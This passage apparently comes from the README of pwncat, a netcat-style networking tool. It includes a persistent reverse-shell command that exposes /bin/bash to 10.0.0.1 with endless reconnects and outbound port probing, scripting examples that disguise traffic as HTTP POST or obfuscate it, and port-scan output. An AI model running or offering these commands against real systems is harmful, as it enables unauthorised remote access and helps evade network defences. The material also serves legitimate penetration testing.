endlessly.\n\n```bash\n# Reverse shell on target (the client)\n# --exec            # The command shell the client should provide\n# --reconn          # Instruct it to reconnect endlessly\n# --reconn-wait     # Reconnect every 0.1 seconds\n# --reconn-robin    # Use these ports to probe for outbount connections\n\npwncat --exec /bin/bash --reconn --reconn-wait 0.1 --reconn-robin 54-1024 10 10.0.0.1 53\n```\n\nOnce the client is up and running, either use raw sockets to check for inbound traffic or use\nsomething like Wireshark or tcpdump to find out from where the client is able to connect back to you,\n\nIf you found one or more ports that the client is able to connect to you,\nsimply start your listener locally and wait for it to come back.\n```bash\npwncat -l <ip> <port>\n```\nIf the client connects to you, you will have a working reverse shell. If you stop your local\nlistening server accidentally or on purpose, the client will probe ports again until it connects successfully.\nIn order to kill the reverse shell client, you can use `--safe-word` (when starting the client).\n\n\nIf none of this succeeds, you can add other measures such as using UDP or even wrapping your\npackets into higher level protocols, such as HTTP or others. See [PSE](pse) or examples below\nfor how to transform your traffic.\n\n\n### Pwncat Scripting Engine ([PSE](pse))\n\n`pwncat` offers a Python based scripting engine to inject your custom code before sending and\nafter receiving data.\n\n#### How it works\n\nYou will simply need to provide a Python file with the following entrypoint function:\n```python\ndef transform(data, pse):\n    # Example to reverse a string\n    return data[::-1]\n```\nBoth, the function name must be named `transform` and the parsed arguments must be named `data` and `pse`.\nOther than that you can add as much code as you like. Each instance of `pwncat` can take two scripts:\n\n1. `--script-send`: script will be applied before sending\n2. `--script-recv`: script will be applied after receiving\n\nSee [here](pse) for API and more details\n\n\n#### Example 1: Self-built asymmetric encryption\n\n> PSE: [asym-enc](pse/asym-enc) source code\n\nThis will encrypt your traffic asymmetrically. It is just a very basic [ROT13](https://en.wikipedia.org/wiki/ROT13) implementation with different shift lengths on both sides to *emulate* asymmetry. You could do the same and implement GPG based asymmetric encryption for PSE.\n\n```bash\n# server\npwncat -vvvv -l localhost 4444 \\\n  --script-send pse/asym-enc/pse-asym_enc-server_send.py \\\n  --script-recv pse/asym-enc/pse-asym_enc-server_recv.py\n```\n```bash\n# client\npwncat -vvvv localhost 4444 \\\n  --script-send pse/asym-enc/pse-asym_enc-client_send.py \\\n  --script-recv pse/asym-enc/pse-asym_enc-client_recv.py\n```\n\n#### Example 2: Self-built HTTP POST wrapper\n\n> PSE: [http-post](pse/http-post) source code\n\nThis will wrap all traffic into a valid HTTP POST request, making it look like normal HTTP traffic.\n\n```bash\n# server\npwncat -vvvv -l localhost 4444 \\\n  --script-send pse/http-post/pse-http_post-pack.py \\\n  --script-recv pse/http-post/pse-http_post-unpack.py\n```\n```bash\n# client\npwncat -vvvv localhost 4444 \\\n  --script-send pse/http-post/pse-http_post-pack.py \\\n  --script-recv pse/http-post/pse-http_post-unpack.py\n```\n\n### Port scanning\n\n#### TCP\n```bash\n$ sudo netstat -tlpn\nActive Internet connections (only servers)\nProto Recv-Q Send-Q Local Address           Foreign Address     State\ntcp        0      0 127.0.0.1:631           0.0.0.0:*           LISTEN\ntcp        0      0 127.0.0.1:25            0.0.0.0:*           LISTEN\ntcp        0      0 127.0.0.1:4444          0.0.0.0:*           LISTEN\ntcp        0      0 0.0.0.0:902             0.0.0.0:*           LISTEN\ntcp6       0      0 ::1:631                 :::*                LISTEN\ntcp6       0      0 ::1:25                  :::*                LISTEN\ntcp6       0      0 ::1:4444                :::*                LISTEN\ntcp6       0      0 :::1053                 :::*                LISTEN\ntcp6       0      0 :::902                  :::*                LISTEN\n```\n\n#### UDP\nThe following UDP ports are exposing:\n```bash\n$ sudo netstat -ulpn\nActive Internet connections (only servers)\nProto Recv-Q Send-Q Local Address           Foreign Address\nudp        0      0 0.0.0.0:631             0.0.0.0:*\nudp        0      0 0.0.0.0:5353            0.0.0.0:*\nudp        0      0 0.0.0.0:39856           0.0.0.0:*\nudp        0      0 0.0.0.0:68              0.0.0.0:*\nudp        0      0 0.0.0.0:68              0.0.0.0:*\nudp6       0      0 :::1053                 :::*\nudp6       0      0 :::5353                 :::*\nudp6       0      0 :::57728                :::*\n```\n\n##### nmap\n```bash\n$ time sudo nmap -T5 localhost --version-intensity 0 -p- -sU\nStarting Nmap 7.70 ( https://nmap.org ) at 2020-05-24 17:03 CEST\nWarning: 127.0.0.1 giving up on port because retransmission cap hit (2).\nNmap scan report for localhost (127.0.0.1)\nHost is up (0.000035s latency).\nOther addresses for localhost (not scanned): ::1\nNot shown: 65529 closed ports\nPORT      STATE         SERVICE\n68/udp    open|filtered dhcpc\n631/udp   open|filtered ipp\n1053/udp  open|filtered remote-as\n5353/udp  open|filtered zeroconf\n39856/udp open|filtered unknown\n40488/udp open|filtered unknown\n\nNmap done: 1 IP address (1 host up) scanned in 179.15 seconds\n\nreal    2m52.446s\nuser    0m0.844s\nsys     0m2.571s\n```\n#####